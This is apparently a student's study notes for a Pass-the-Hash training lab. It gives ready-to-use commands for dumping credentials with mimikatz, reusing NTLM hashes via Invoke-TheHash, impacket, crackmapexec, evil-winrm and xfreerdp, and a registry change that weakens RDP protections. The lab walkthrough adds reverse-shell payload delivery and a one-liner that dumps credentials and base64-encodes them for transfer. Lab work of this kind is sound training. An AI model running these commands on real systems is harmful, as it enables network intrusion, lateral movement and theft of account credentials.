 `https://www.revshells.com/` it generates reverse shell one liners
`https://gist.githubusercontent.com/insi2304/484a4e92941b437bad961fcacda82d49/raw/66196c71dedacb17f41f90840260fb3216f0da85/Mimikatz-cheatsheet` - mimikatz cheatsheet

> Hash is used instead of a plaintext password

# Window host

## Mimikatz

```ps1
mimikatz.exe privilege::debug "sekurlsa::pth /user:<username> /<hash-type_NTLM/rc4>:<Hash> /domain:<Domain> /run:<Program_to_run>.exe" exit
```

### To dump hashes in current session

```ps1
mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit
```

## Invoke-TheHash for SMB

Within the directory containing the tool

```ps1
$ Import-module .\Invoke-TheHash.psd1
$ Invoke-SMBExec -Target <target_ip> -Domain <domain_name> -Username <username> -Hash <hash> -Command <payload>
```

## Invoke-TheHash for WMI

```ps1
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target <target_name> -Domain <domain_name> -Username <username> -Hash <hash> -Command <payload>
```

# Linux

## Impacket-PsExec

```shell
impacket-psexec <user>@<ip> -hashes :<hash>
```

Similar tools:

- impacket-wmiexec
- impacket-atexec
- impacket-smbexec

## crackmapexec

```shell
crackmapexec smb <target_ip> -u <username> -d . -H <Hash> -x <command>
```

> **Tip** If password reuse is an issue encountered during actual engagement a great recommendation will be the use of LAPS

## evil-winrm

```shell
evil-winrm -i <ip> -u <username> -H <Hash>
```

## rdp

```shell
xfreerdp  /v:<ip> /u:<username> /pth:<hash>
```

> ***Error***
![Alt text](rdp_session-4.png)
If this error is encountered it means `Restricted Admin Mode` is disabled. <br>
To enable this mode an entry in registry `DisableRestrictedAdmin` under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` has to be added and set to `0`. To add it: <br>
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

## Limits

- If registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to `0`(by `default`) User Access Control limits this attack. It means that the local admin account (`RID-500`,`'Administrator'`) is only allowed to perform remote administration tasks. Setting it to `1` will alow other admins.

> **Exception** if registry key `FilterAdministratorToken`(default:`disabled`) is set to `1`, even `RID-500` is enrolled in UAC protection.

***Tldr*** UAC protection = no `PtH`

## Lab

---

### Access the target machine using any Pass-the-Hash tool. Submit the contents of the file located at C:\pth.txt

1. start a listner on the attack machine
2. Use xfreerdp to initiate an rdp session

```shell
xfreerdp /u:Administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453 /v:10.129.x.x
```

> Recieved restricted mode error. Need to disable Restricted mode.

3. Using <www.revshells.com>, generate a payload
4. Use crackmapexec to execute a payload

```shell
crackmapexec smb 10.129.x.x -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x "powershell -e base64payload"
```

5. After gaining a powershell session. The value for `DisableRestrictedAdmin`
```shell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

6. RDP session can be initiated now. Use step 2 to initiate the GUI session.
7. Run a privileged powershell session
8. Execute
`cat C:/pth.txt`

### Try to connect via RDP using the Administrator hash. What is the name of the registry value that must be set to 0 for PTH over RDP to work? Change the registry key value and connect using the hash with RDP. Submit the name of the registry value name as the answer. 

`DisableRestrictedAdmin`

### Connect via RDP and use Mimikatz located in c:\tools to extract the hashes presented in the current session. What is the NTLM/RC4 hash of David's account? 

1. From the open active directory dashboard domain controller name discovered `inlanefreight.htb`
2. Navigate to `C:/tools` directory using the powershell session
3. Use mimikatz to dump the hashes in the current session. Execute the following command to dump hashes and store it in a file.

```ps1
(./mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit) | Out-File -FilePath "filename.txt"
 ```

Use the following command to dump hashes then store it in a file then convert into a `base64` code and store it in a file for easy transfer.

```ps1
(./mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit) | Out-File -FilePath "output.txt"; [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((Get-Content -Path "output.txt" -Raw)))| Out-File -FilePath "base64output.txt"
```

> c39f2beb3d2ec06a62cb887fb391dee0

### Using David's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\david and read the file david.txt.

1. Use mimikatz to start a shell session for user david
`mimikatz privilege::debug "sekurlsa::pth /user:david /NTLM:c39f2beb3d2ec06a62cb887fb391dee0 /domain:inlanefreight.htb /run:cmd.exe" exit`
2. In the new cmd session use notepad \\DC01\david\david.txt

### Using Julio's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\julio and read the file julio.txt

1. From the hash dump julio's hash is `64f12cddaa88057e06a81b54e73b949b` and domain is `inlanefreight.htb`
2. Use mimikatz to start a shell session for user julio
`mimikatz privilege::debug "sekurlsa::pth /user:julio /NTLM:64f12cddaa88057e06a81b54e73b949b /domain:inlanefreight.htb /run:cmd.exe" exit`
3. In the new cmd session use notepad \\DC01\julio\julio.txt

### Using Julio's hash, perform a Pass the Hash attack, launch a PowerShell console and import Invoke-TheHash to create a reverse shell to the machine you are connected via RDP (the target machine, DC01, can only connect to MS01). Use the tool nc.exe located in c:\tools to listen for the reverse shell. Once connected to the DC01, read the flag in C:\julio\flag.txt.

1. Use `nc.exe` to start a listener
2. From <www.revshells.com> generate a payload
3. Import the module `Invoke-TheHash`

```ps1
Import-Module Invoke-TheHash
```

4. use Invoke-WMIExec to connect and run the payload

```ps1
Invoke-WMIExec -target DC01 -domain inlanefreight.htb -username julio -hash 64f12cddaa88057e06a81b54e73b949b -command <payload>
```

5. Using the reverse shell get the flag

### Optional: John is a member of Remote Management Users for MS01. Try to connect to MS01 using john's account hash with impacket. What's the result? What happen if you use evil-winrm?. Mark DONE when finish.

- Impacket does not work but evil-winrm does due to some SMB properties

> John's hash `c4b0e1b10c7ce2c4723b4e2407ef81a2`
